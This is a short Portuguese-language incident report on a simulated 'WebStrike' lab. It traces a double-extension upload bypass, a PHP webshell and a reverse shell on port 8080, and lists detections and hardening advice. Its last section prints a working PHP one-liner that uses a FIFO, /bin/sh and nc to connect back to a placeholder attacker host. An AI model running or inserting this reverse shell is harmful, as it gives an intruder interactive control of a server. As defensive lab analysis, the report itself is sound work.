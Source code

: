 # Relatório Técnico — WebStrike (simulado)
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Sumário
Upload com **dupla extensão** contornou validação; **webshell** executou **reverse shell** (saída :8080); evidências de **exfil HTTP**.

## Evidências (rede)
- Filtros e streams HTTP indicam POST multipart para endpoint de upload.
- Acesso subsequente a artefato com dupla extensão (generalizado).
- Conexões outbound para porta alta (generalizado como 8080).
- Picos de POST/bytes em 443 compatíveis com exfiltração.

## Detecções
- Sigma: `web_upload_double_extension.yml`
- KQL: `reverse_shell_port_8080.kql`, `web_exfil_high_volume.kql`

## Recomendações
- WAF anti-dupla extensão; **no-exec** em `/uploads`.
- Controle de egress para portas não utilizadas (ex.: 8080).
- Monitoramento de exfiltração e DLP/inspeção em 443.

## Padrão de reverse shell (generalizado)
Identifiquei sequência **FIFO + /bin/sh + nc** em PHP, que estabelece uma **conexão de saída** ao controlador:

```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f"); ?>
```

- **Indicadores:** criação de FIFO em `/tmp`, invocação de shell interativo e `nc` apontando para **porta 8080**.
- **Uso defensivo:** bloquear/monitorar **egress 8080**, varrer uploads por **dupla extensão** e **padrões de comando** (quando body é registrado).
